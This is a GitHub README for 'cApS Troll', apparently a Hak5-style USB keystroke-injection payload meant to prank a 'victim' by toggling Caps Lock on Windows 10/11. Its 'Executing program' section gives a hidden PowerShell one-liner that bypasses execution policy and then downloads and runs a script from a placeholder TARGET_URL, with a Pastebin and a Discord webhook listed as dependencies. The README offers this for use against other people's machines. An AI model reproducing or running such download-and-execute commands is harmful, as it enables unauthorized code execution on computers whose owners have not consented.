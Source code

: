 <h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+;cApS+Troll+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# cApS-Troll

This payload is meant to prank your victim with TURNING on AND off CAPS LOCK

## Description

This payload is meant to prank your victim with TURNING on AND off CAPS LOCK

## Getting Started

### Dependencies

* Pastebin or other file sharing service, Discord webhook or other webhook service
* Windows 10,11
* [Here](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks) is a tutorial on how to use Discord webhooks 

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Define the `DEFINE TARGET_URL example.com`
* Device will download both files and place them in proper directories to then run the script
```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr TARGET_URL dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here:

[atomiczsec](https://github.com/atomiczsec) &
[I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://www.youtube.com/channel/UC-7iJTFN8-CsTTuXd3Va6mA?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/atomiczsec">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>I-Am-Jakoby's Discord
    </td>
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>




<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [I-Am-Jakoby](https://github.com/I-Am-Jakoby)

<p align="right">(<a href="#top">back to top</a>)</p>

